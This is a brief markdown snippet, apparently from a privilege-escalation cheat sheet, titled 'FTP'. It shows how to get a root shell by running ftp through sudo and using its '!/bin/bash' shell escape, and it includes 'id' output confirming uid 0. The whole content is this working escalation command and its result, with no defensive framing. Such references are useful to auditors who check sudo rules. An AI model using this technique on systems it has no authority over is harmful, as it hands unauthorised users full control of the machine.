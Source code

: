 # FTP

Elevate to root.

```
user@debian:~$ sudo ftp
ftp> !/bin/bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```